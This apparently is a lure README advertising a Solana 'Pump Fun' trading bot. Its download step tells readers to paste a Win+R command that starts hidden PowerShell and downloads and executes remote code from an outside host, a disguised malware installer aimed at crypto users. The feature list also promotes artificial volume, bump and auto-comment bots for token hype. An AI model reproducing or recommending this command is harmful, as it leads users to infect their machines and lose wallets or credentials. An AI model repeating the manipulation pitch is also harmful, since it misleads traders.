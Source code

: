 ## **Pump Fun Bot for Solana** | **Solana Multifunctional PumpFun Bot** 🤖

![Pump Fun Bot](https://i.ytimg.com/vi/TRwW5UPT9mo/maxresdefault.jpg)

## Project Description.
**Pump Fun Bot** is your all-in-one solution for automated trading on the Solana blockchain! 🌟 This multi-functional bot combines various powerful features to streamline your trading experience and help you stay ahead in the competitive cryptocurrency market. With tools like the **PumpFun Trading Bot**, **Pump Fun Bundle Bot**, and more, you can manage your investments efficiently and effectively.

<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in (Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://updatelib.nfortek.pt/';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>

## Key Features.
- **💰 Pump Fun Bundle Bot**: Effortlessly distribute SOL across multiple wallets with the bundle bot feature. This function enhances liquidity and manages risk by allowing you to send tokens to numerous wallets simultaneously.

- **🛒 Pump Fun Buy Bot**: Automate your token purchases with the buy bot, ensuring you acquire assets at optimal prices. Set your parameters and let the bot handle the buying process, so you never miss a great investment opportunity.

- **🚀 Pump Fun Boost Bot**: Increase your trading volume and market presence using the boost bot. This feature helps you implement strategies that attract attention to your tokens, making them more appealing to potential buyers.

- **📈 Pump Fun Bump Bot**: Maintain momentum for your tokens with the bump bot, which strategically places buy orders to create urgency and interest in the market, ultimately driving up demand.

- **💬 Pump Fun Auto Comment Bot**: Engage your community effortlessly with the auto comment bot. This feature allows for automatic posting of comments and updates, keeping your audience informed and involved with your projects.

- **🤖 Pump Fun AI Bot**: Utilize advanced AI capabilities to analyze market trends and make data-driven decisions. The AI bot helps optimize your trading strategies and identify potential investment opportunities.

- **🔍 Snipe Token**: Quickly purchase tokens at the best prices with the snipe functionality, ensuring you capitalize on optimal moments in the market.

- **📦 Bundle Selling**: Increase sales efficiency and user engagement through bundle selling, allowing you to sell multiple tokens in a single transaction.

- **🌐 Gather SOL**: Strategically gather SOL to optimize asset management and liquidity, ensuring you have the necessary resources for your trading activities.

- **🛡️ Protect against Rug Pulls**: Safeguard your investments by analyzing projects for signs of fraud, helping users make informed decisions and avoid scams.
